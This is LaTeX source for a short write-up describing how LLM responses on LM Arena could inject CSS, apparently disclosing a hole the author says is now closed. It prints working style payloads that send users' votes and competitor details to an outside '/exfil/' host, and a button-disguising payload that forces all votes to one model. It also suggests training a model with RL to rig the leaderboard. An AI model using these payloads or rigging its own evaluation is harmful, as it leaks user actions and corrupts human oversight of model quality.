\documentclass[11pt,a4paper]{article}
\usepackage{fontspec}
\usepackage{graphicx}
\usepackage{subcaption}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{xcolor}

% Configure listings for code snippets
\lstdefinestyle{mystyle}{
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,
    breaklines=true,
    captionpos=b,
    keepspaces=true,
    numbers=left,
    numbersep=5pt,
    showspaces=false,
    showstringspaces=false,
    showtabs=false,
    tabsize=2
}

\lstset{style=mystyle}

\newcommand{\emoji}[1]{
  {\setmainfont{Noto Color Emoji}[Renderer=Harfbuzz]{#1}}
}

\title{CSS Injection is All You Need}
\author{\vspace{-5ex}}
\date{\vspace{-5ex}}

\begin{document}
\maketitle

\section{Making Graphics}
What if LLMs could include diagrams, timelines, or drawings in their responses? Turns out, on LM Arena, LLMs can.

In the Arena, inline SVGs render inline. Since humans --- the ones who show their preferences on the Arena --- like visuals, a model that does this could rank well.

\begin{figure}[htbp]
    \centering
    \begin{subfigure}[b]{0.45\textwidth}
        \centering
        
\includegraphics[width=\textwidth]{Screenshot From 2025-03-14 21-33-22.png}
        \caption{Early Grok 3}
        \label{fig:image1}
    \end{subfigure}
    \hfill
    \begin{subfigure}[b]{0.45\textwidth}
        \centering
        
\includegraphics[width=\textwidth]{Screenshot From 2025-03-14 21-33-11.png}
        \caption{Claude 3.7 Thinking}
        \label{fig:image2}
    \end{subfigure}
    \caption{LLMs prompted to think of a question that would benefit from SVG, then answer it}
    \label{fig:images}
\end{figure}

\section{Sampling Votes}
SVGs aren't the only thing LLMs can include in their responses. \verb|<style>| tags can be included too, and apply to the whole document. The obvious next step is to smuggle info about votes out. The code for this might look something like

\begin{lstlisting}[caption=Code to smuggle vote info out]
/* Setup */
#component-56::before, #component-57::before {
  content: " ";
  background-image: var(--bg-1), var(--bg-2);
  --bg-1: url("https://model-creator.com/exfil/nothing");
  --bg-2: url("https://model-creator.com/exfil/nothing");
}

/* Basic vote logging */
#component-32:has(#component-42:has(style)) ~ #component-55 > #component-56:active {
  --bg-1: url("https://model-creator.com/exfil/win");
}
#component-32:has(#component-45:has(style)) ~ #component-55 > #component-57:active {
  --bg-1: url("https://model-creator.com/exfil/win");
}
#component-32:has(#component-42:has(style)) ~ #component-55 > #component-57:active {
  --bg-1: url("https://model-creator.com/exfil/lose");
}
#component-32:has(#component-45:has(style)) ~ #component-55 > #component-56:active {
  --bg-1: url("https://model-creator.com/exfil/lose");
}

/* Competitor content logging */
#component-32:has(#component-42:has(style)):has(#component-45 h2) {
  --bg-2: url("https://model-creator.com/exfil/competitor-used-headings");
}
#component-32:has(#component-45:has(style)):has(#component-42 h2) {
  --bg-2: url("https://model-creator.com/exfil/competitor-used-headings");
}
\end{lstlisting}

You could extend this a lot. You could attach generation IDs to have the output as context, extend the logging to track the very specifics, and even theoretically apply RL to make a model that ranks at the very top.

\section{Complete Rigging}
This is so stupid, but you could make one of the buttons look like both buttons, forcing votes for yourself.

\begin{lstlisting}[caption=Code that fakes the button, escapechar=\!]
/* note: this assumes you target "b is better"; you would need to use the kind of targeting code you saw in the previous section to auto target the other button instead */
#component-56 {
  display: none;
}
#component-57 {
  display: grid;
  grid-template-columns: 1fr 1fr;
  gap: 0 var(--layout-gap);
  background: transparent;
  border: none;
  cursor: default;
  padding: 0;
  font-size: 0;
  flex: 2 2 0;
  &::before, &::after {
    background: var(--button-secondary-background-fill);
    border: var(--button-border-width) solid var(--button-secondary-border-color);
    border-radius: var(--button-large-radius);
    padding: var(--button-large-padding);
    font-size: var(--button-large-text-size);
    cursor: pointer;
  }
  &::before {
    content: "!\emoji{👈}! A is better";
    grid-row: 1;
    grid-column: 1;
  }
  &::after {
    content: "!\emoji{👉}! B is better";
    grid-row: 1;
    grid-column: 2;
  }
}
\end{lstlisting}

\section{Unfortunately}
The Alpha arena - soon to be the default - ends these shenanigans. It doesn't allow inline SVGs or CSS injections. Oh well.
\end{document}
